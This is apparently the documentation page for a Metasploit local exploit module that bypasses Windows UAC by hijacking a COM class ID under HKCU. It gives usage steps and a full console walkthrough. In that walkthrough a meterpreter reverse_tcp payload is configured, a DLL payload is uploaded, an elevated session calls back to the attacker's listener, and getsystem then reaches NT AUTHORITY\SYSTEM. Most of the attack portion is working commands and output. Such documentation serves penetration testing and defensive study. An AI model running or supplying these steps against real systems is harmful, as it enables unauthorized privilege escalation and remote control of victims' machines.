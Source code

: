 ## Intro

This module will bypass UAC on Windows 7 through to 10 RS3 by hijacking a COM Class ID
that is located in the current user hive. This key contains a reference to a DLL that
contains a chosen payload. Multiple COM vectors are defined in this module and one is
chosen at random at runtime.

The module modifies the registry in order for this exploit to work. The modification is
reverted once the exploitation attempt has finished.

This module requires that the payload architecture matches the target operating system
architecture. This is due to the fact that the underlying binaries that are invoked
match the system architecture.

If a custom DLL is to be used with `EXE::Custom`, that DLL must match the system
architecture, and should call `ExitProcess()` after starting the payload in a
different process.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_comhijack`.
1. Set the `PAYLOAD` and configure it correctly, making sure the architecture is correct.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenario

```
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-5A73R51
OS              : Windows 10 (Build 14393).
Architecture    : x64
System Language : en_AU
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf exploit(bypassuac_comhijack) > options

Module options (exploit/windows/local/bypassuac_comhijack):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     xxx.xx.255.1     yes       The listen address
   LPORT     8443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(bypassuac_comhijack) > run

[*] [2017.08.16-12:58:31] UAC is Enabled, checking level...
[+] [2017.08.16-12:58:31] Part of Administrators group! Continuing...
[+] [2017.08.16-12:58:32] UAC is set to Default
[+] [2017.08.16-12:58:32] BypassUAC can bypass this setting, continuing...
[*] [2017.08.16-12:58:33] Targeting Event Viewer via HKCU\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931} ...
[*] [2017.08.16-12:58:33] Uploading payload to C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll ...
[*] [2017.08.16-12:58:33] Executing high integrity process ...
[*] [2017.08.16-12:58:34] Sending stage (1188415 bytes) to xxx.xx.255.159
[*] Meterpreter session 2 opened (xxx.xx.255.1:8443 -> xxx.xx.255.159:51480) at 2017-08-16 12:58:35 +1000
[*] [2017.08.16-12:58:38] Cleaining up registry ...
[!] [2017.08.16-12:58:39] This exploit may require manual cleanup of 'C:\Users\oj\AppData\Local\Temp\DJAyEYXA.dll' on the target
msf exploit(bypassuac_comhijack) > sessions

Active sessions
===============

  Id  Type                     Information                           Connection
  --  ----                     -----------                           ----------
  1   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51474 (xxx.xx.255.159)
  2   meterpreter x64/windows  DESKTOP-5A73R51\oj @ DESKTOP-5A73R51  xxx.xx.255.1:8443 -> xxx.xx.255.159:51480 (xxx.xx.255.159)

msf exploit(bypassuac_comhijack) > sessions -1
[*] Starting interaction with 2...

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
